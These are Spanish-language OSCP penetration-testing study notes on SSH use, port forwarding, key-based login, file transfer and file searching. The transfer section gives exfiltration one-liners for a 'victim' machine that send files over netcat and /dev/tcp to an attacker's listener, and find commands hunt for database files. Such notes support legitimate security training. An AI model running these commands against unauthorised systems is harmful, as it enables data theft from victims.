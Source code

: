 # Apuntes-OSCP

## SSH
```bash
 ssh -p22 usuario@host_remoto
```
#### reenvio de puertos
```bash
 ssh -L [PUERTO_LOCAL]:[HOST_REMOTO]:[PUERTO_REMOTO] usuario@host_remoto
```
#### Inicio de sesion con id_rsa
El id_rsa debe tener el siguiente permiso
```bash
 chmod 600 id_rsa
```
```bash
 ssh -i id_rsa usuario@host_remoto
```
## Transferencia de archivos
* `SCP`
* `find / -name 'sbd*'`
Traer el archivo a mi maquina con scp
```bash
 scp target_user@IP_remota:/ruta/completa/al/archivo .
```
* `NC` 
Es util cuando no dispongo de la contraseña
</br>en la maquina victima
```bash
nc 19.10.10.10 9091 < archivo
```
luego en mi maquina
```bash
nc -lvnp 9091 > archivo
```
Otra Alternativa es
```bash
cat file.txt > /dev/tcp/192.168.1.23/4444 # on victim linux
```
```bash
nc -lvp 4444 > file.txt # on Kali
```
* `BASE64` 
Cuando el archivo no es texto plano, ej: una BD entonces
Tenemos (2) formas
1.
```bash
base64 filename.db > outputfile.db.b64
```
2. 
```bash
echo -n 'texto' | base64
```
Luego en mi maquina
```bash
base64 -d encodedfile.db.b64 > outputfile.db
```
## Busqueda de archivos

* `find / -name 'sbd*'`
* `find / -name 'foldername' -type d`
* `find / -name 'filename' -type f`
* `find / -name 'sbd*' -exec file {} \;`
</br> Buscar por extension </br>
* `find / -type f -iname "*.db" 2>/dev/null`
</br> Buscar varios archivos
* `find / -type f \( -iname "*.db" -o -iname "*.sqlite" -o -iname "*.sqlite3" \) 2>/dev/null`

